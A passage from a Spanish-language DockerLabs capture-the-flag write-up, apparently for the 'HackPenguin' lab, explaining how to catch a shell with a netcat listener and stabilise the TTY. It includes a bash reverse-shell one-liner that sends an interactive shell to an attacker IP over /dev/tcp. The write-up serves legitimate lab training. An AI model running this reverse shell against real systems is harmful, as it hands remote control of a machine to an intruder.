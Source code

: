 ### Tratamiento de la tty

[](https://github.com/albertomarcostic/DockerLabs-WriteUps/blob/main/M%C3%A1quina%20HackPenguin.md#tratamiento-de-la-tty)

Si tenemos problemas al aplicar el tratamiento de la **tty**, lo que podemos hacer es ponernos en escucha desde una consola nueva por un puerto. Por ejemplo con **netcat**

```shell
nc -nlvp 443
```

Y nos enviamos desde la máquina víctima una reverse shell para acceder:

```shell
bash -c "bash -i >&/dev/tcp/10.0.2.15/443 0>&1" 
```



---

Realizaremos un breve **tratamiento de la tty** para poder operar de forma cómoda sobre la consola. Los comandos a ejecutar:

```shell
script /dev/null -c bash 
```

(hacemos **ctrl + Z**)

```shell
stty raw -echo; fg
reset xterm
stty rows 62 columns 248
export TERM=xterm
export SHELL=bash
```

Pondremos en rows y columns las columnas y filas que correspondan a la pantalla de nuestra máquina. Una vez hecho esto podemos maniobrar con comodidad, pudiendo hacer Ctrl+L para limpiar la pantalla así como Ctrl+C.